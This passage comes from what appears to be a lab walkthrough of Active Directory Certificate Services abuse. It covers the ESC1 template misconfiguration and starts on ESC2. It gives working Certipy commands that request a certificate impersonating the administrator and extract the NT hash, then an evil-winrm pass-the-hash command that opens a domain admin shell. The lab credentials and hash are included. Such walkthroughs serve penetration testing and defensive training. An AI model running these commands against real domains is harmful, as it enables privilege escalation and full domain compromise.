 The `template` command can be used to manipulate, save and restore template configurations. You will encounter a use case for this command when we cover ESC4.

## Misconfigured Certificate Templates - ESC1

Let's go over the prerequisites for having this escalation path available:

- The CA grants *low-privileged users* enrollment rights
- Manager approval is disabled
- No authorized signatures are required
- The certificate template allows requesters to specify a Subject Alternative Name (SAN) in the Certificate Signing Request (CSR).
- The certificate template defines EKUs that enable authentication. 

![ESC1](/screenshots/ESC1.png?raw=true)

We've already used the `find` command to enumerate the available templates.

If we examine the generated `.txt` file we'll discover that template `Vuln-ESC1` is vulnerable to this escalation path.

![](/screenshots/20230724225445.png?raw=true)

Here is what we need to pay attention to so we can spot vulnerable templates ourselves:
![](/screenshots/20230724225643.png?raw=true)

### Template Abuse

First we're going to request the vulnerable template with valid domain user credentials and specify the UPN of the administrator account.

`certipy req -u s.jackson@certipied.local -p 'Pr3-0wn3d@#.' -ca Certipied-CA -template Vuln-ESC1 -upn administrator@certipied.local -dc-ip 192.168.91.181`

![](/screenshots/20230724225958.png?raw=true)

Then we're going to use the certificate we have obtained to authenticate, which will give us the NT hash of the account.

`certipy auth -pfx administrator.pfx -dc-ip 192.168.91.181`
![](/screenshots/20230724230105.png?raw=true)

Just like that we have the administrator hash, all we need to do is perform a Pass-the-Hash attack to obtain a shell and the domain is ours.

`evil-winrm -i 192.168.91.181 -u administrator -H 91e2bb8a04a98412fd7db7a798426b19`
![](/screenshots/20230724230237.png?raw=true)

## Misconfigured Certificate Templates - ESC2

Let's begin once again with the prerequisites for having this escalation path available:

- The CA grants *low-privileged users* enrollment rights
- Manager approval is disabled
- No authorized signatures are required
- The certificate template has Any Purpose as EKU
